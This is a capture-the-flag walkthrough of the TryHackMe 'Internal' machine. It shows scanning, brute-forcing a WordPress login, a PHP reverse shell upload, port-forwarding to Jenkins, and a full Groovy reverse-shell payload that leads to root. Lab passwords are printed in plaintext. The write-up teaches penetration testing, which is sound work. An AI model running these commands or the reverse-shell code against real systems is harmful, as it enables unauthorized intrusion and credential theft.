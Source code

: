 # Enumeration

## Nmap

```jsx
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## HTTP (80)

### Dirsearch

```jsx
[05:28:52] 301 -  313B  - /blog  ->  http://10.10.120.129/blog/             
[05:28:53] 200 -    2KB - /blog/wp-login.php                                
[05:28:53] 200 -   18KB - /blog/                                            
[05:29:29] 301 -  319B  - /javascript  ->  http://10.10.120.129/javascript/ 
[05:29:53] 301 -  319B  - /phpmyadmin  ->  http://10.10.120.129/phpmyadmin/ 
[05:29:55] 200 -    3KB - /phpmyadmin/doc/html/index.html                   
[05:29:56] 200 -    3KB - /phpmyadmin/                                      
[05:29:56] 200 -    3KB - /phpmyadmin/index.php
[05:30:08] 403 -  278B  - /server-status/                                   
[05:30:08] 403 -  278B  - /server-status
[05:30:35] 200 -    2KB - /wordpress/wp-login.php                           
[05:30:36] 404 -   51KB - /wordpress/ 
```

### Website functionality

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(3).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(4).png)

- username admin is available
- bruteforce password

## WPScan

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog -e vp,u

┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ wpscan --url http://10.10.120.129/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```

```jsx
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

## Post Enumeration

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(5).png)

```jsx
william:arnold147
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh william@10.10.120.129
william@10.10.120.129's password: 
Permission denied, please try again.
william@10.10.120.129's password: 
```

- ssh cannot connect

### Reverse Shell

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(6).png)

- we upload php-revershell-php

```jsx
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.ph
```

- tick this link

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 53    
listening on [any] 53 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 34560
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:06:33 up 44 min,  0 users,  load average: 0.00, 0.14, 0.88
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

```jsx
$ cd /opt
$ ls -lah
total 16K
drwxr-xr-x  3 root root 4.0K Aug  3  2020 .
drwxr-xr-x 24 root root 4.0K Aug  3  2020 ..
drwx--x--x  4 root root 4.0K Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
$ cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

- we check cat /etc/passwd
- aubreanna is user
- we ssh login

```jsx
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
```

```jsx
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

- the ip may be docker

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.120.129

```

- link connect this docker ip

```jsx
  System information as of Sat Jun  7 10:16:41 UTC 2025

  System load:  0.0               Processes:              112
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
  Memory usage: 37%               IP address for eth0:    10.10.120.129
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(7).png)

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(8).png)

- fuzz password

```jsx
admin : spongebob
```

![image.png](https://github.com/HeinPyaeSoneShein/CTF-Write-up/blob/2671ded0991d8af2f269acb872174d3993c4bc47/Internal%20(THM)/Images/image%20(9).png)

### Jenkins Reverse Shell

- In jenkins, we can get reverse shell from `scripting console`

```jsx
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

- Can find at groovy reverse shell online
- Change string cmd = `“/bin/sh”`

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ nc -lvnp 8044
listening on [any] 8044 ...
connect to [10.4.9.248] from (UNKNOWN) [10.10.120.129] 60380
id
uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)

```

```jsx
cd opt
ls -lah
total 12K
drwxr-xr-x 1 root root 4.0K Aug  3  2020 .
drwxr-xr-x 1 root root 4.0K Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

```jsx
┌──(kali㉿kali)-[~/CTF/tryhackme/Internal]
└─$ ssh root@10.10.120.129
root@10.10.120.129's password: 
```
